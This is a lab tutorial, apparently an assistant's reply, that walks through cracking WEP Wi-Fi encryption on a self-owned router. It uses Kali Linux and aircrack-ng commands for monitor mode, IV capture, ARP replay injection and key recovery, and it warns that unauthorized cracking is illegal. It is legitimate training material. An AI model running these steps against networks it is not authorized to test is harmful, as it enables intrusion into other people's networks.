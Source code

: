 **Step-by-step lab setup guide** for practicing **WEP cracking safely and legally** using **Kali Linux** and a **wireless access point** (either real or virtualized).


## 🧪 WEP Cracking Lab Setup Guide

### 🔧 What You’ll Need:

1. **Kali Linux** (bare metal, VM with USB pass-through, or live boot)
2. **A Wireless Adapter** that supports **monitor mode & packet injection**

   * Common: **ALFA AWUS036NHA** (Atheros chipset)
3. **A Router or AP** with WEP encryption enabled

   * You can use an old router or create a virtual AP (see below).
4. A **Client device** (e.g., Android, old laptop) connected to the WEP network (for ARP injection).

---

### ⚙️ Step 1: Setup the Access Point with WEP

1. Log in to your old Wi-Fi router or virtual AP.
2. Enable **WEP encryption** (64-bit or 128-bit).
3. Set a **simple key** (e.g., `12345ABCDE`).
4. Connect a **client device** to the network to generate traffic.

---

### ⚙️ Step 2: Boot into Kali Linux

Make sure your wireless card is connected:

```bash
iwconfig
```

Look for an interface like `wlan0` or `wlan1`.

---

### ⚙️ Step 3: Enable Monitor Mode

```bash
airmon-ng start wlan0
```

Now your interface should be something like `wlan0mon`.

---

### ⚙️ Step 4: Capture Packets from Target Network

```bash
airodump-ng wlan0mon
```

Find your target network (with WEP in encryption column). Note:

* BSSID
* Channel (CH)
* ESSID (network name)

Now capture IVs:

```bash
airodump-ng --bssid <BSSID> -c <channel> -w wep_lab wlan0mon
```

---

### ⚙️ Step 5: Optional – Speed Up IV Collection

If traffic is low, force the AP to resend ARP packets:

```bash
aireplay-ng --arpreplay -b <BSSID> -h <your_MAC> wlan0mon
```

Find your MAC using:

```bash
macchanger -s wlan0mon
```

---

### ⚙️ Step 6: Crack the WEP Key

Once you have 10,000+ IVs:

```bash
aircrack-ng wep_lab-01.cap
```

It will try to recover the key using statistical methods.

---

## 🧼 Clean Up

* Stop monitor mode:

```bash
airmon-ng stop wlan0mon
```

* Reset network manager:

```bash
service NetworkManager restart
```

---

## 🧠 Tips

* 128-bit WEP takes longer to crack (more IVs needed).
* Ensure you have permission — unauthorized cracking is **illegal**.
* Simulate more traffic if your client isn’t active.
